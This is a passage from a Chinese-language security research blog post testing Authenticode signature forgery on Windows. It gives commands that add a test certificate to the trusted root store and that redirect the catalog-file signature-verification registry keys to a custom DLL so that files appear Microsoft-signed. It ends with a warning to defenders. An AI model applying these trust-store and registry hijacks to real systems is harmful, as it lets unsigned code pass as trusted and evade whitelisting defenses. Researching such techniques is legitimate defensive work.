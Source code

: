 此处还需要将证书安装到“受信任的根证书颁发机构”存储区

管理员权限：

```
certmgr.exe -add -c certtest.cer -s -r localmachine root
```

否则，之后的签名验证会报错，提示证书链不可信

**补充：**

从“受信任的根证书颁发机构”存储区删除证书的操作为：

(管理员权限)

```
certmgr.exe -del -c -n "Windows Test1" -s -r localMachine Root
```

cat文件对应GUID:`DE351A43-8E59-11D0-8C47-00C04FC295EE`

替换注册表键值：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{DE351A43-8E59-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\MySIP.dll" /f
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{DE351A43-8E59-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "AutoApproveHash" /f

REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{DE351A43-8E59-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\MySIP.dll" /f
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{DE351A43-8E59-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "GetLegitMSSignature" /f
```

重启explorer.exe，所有的cat文件签名均为`Microsoft Windows`

将makecat1.cat添加到系统的安全编录数据库：

(管理员权限)

```
signtool catdb -v makecat1.cat
```

最终，发现文件的catalog签名保持不变，无法进行伪造

得出结论： **这种方式无法对catalog签名进行伪造**

## 0x05 小结
---

本文介绍了Authenticode签名伪造的另一种利用方法：通过修改系统的签名获取机制，欺骗系统将正常文件识别为包含签名数据。

经过这两篇文章的测试，得出最终结论：应谨慎对待系统的Authenticode签名，因为通过修改注册表或dll劫持等方式均能够伪造出微软签名，对此，白名单等防御机制不应盲目相信Authenticode签名过的文件。

---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)

